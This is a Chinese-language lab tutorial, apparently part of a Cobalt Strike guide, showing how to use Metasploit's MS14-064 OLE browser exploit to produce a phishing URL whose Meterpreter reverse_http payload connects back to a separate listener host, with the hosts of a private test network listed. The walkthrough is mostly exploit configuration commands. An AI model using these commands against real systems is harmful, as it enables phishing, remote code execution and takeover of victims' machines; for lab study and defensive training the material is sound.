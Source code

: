 通过MSF生成恶意url连接, 配合CS克隆网站进行钓鱼攻击, 然后受害机在CS上线



### 准备环境

| 主机                 | 描述            |
| -------------------- | --------------- |
| 192.168.47.134(kali) | CS服务器        |
| 192.168.47.144(kali) | MSF             |
| 192.168.47.133(win7) | CS客户端,攻击机 |
| 192.168.47.141(win7) | 受害机          |



### 步骤	

在kali上输入`msfconsole`打开metasploit, 再输入`use exploit/windows/browser/ms14_064_ole_code_execution`选择相应模块

然后输入如下命令开始执行攻击, 随后会返回一个url钓鱼连接:`http://192.168.47.144:8080/lCKUuRHyz1`

```
set srvhost 192.168.47.144 //设置msf服务器的ip

set srvport 8080  //设置恶意连接的访问端口

set payload windows/meterpreter/reverse_http  //设置监听协议

set allowpowershellprompt true  //使用powershell执行代码

set lhost 192.168.47.134  //设置监听服务器的ip

set lport 80  //设置监听服务器的端口

run  //开始执行
```

![image-20221007163250674](CobaltStrike的使用教程/image-20221007163250674.png)
